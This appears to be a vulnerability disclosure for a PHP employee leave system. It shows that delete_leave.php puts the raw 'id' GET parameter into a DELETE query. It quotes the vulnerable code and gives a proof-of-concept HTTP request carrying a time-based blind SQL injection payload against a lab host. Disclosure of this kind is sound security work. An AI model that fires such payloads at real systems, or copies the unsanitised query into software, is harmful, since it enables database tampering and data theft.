 ### Vulnerability file address

`Employee/delete_leave.php` from line 9,The `$id` parameter is controllable and the `$id` is not protected from sql injection, line 10 `$sql = "DELETE From `tblleave` where leaveID ='$id'";` ,line 11 `$result = mysqli_query($conn, $sql);`Line 15 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php'); 
if(empty($_SESSION['login_email']))
{   
header("Location: ../Account/login.php"); 
}


$id=$_GET['id'];
$sql = "DELETE From `tblleave` where leaveID ='$id'";
$result = mysqli_query($conn, $sql);
//$row = mysqli_num_rows($result);
if ($result >0){

header("location: leave_history.php");
}
```

### POC

```http
GET /CMS/php/employee_akpoly/Employee/delete_leave.php?id=1' AND 4330=BENCHMARK(5000000,MD5(0x7367734e))-- TaKM HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Employee/leave_history.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20250128215357806](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282153854.png)
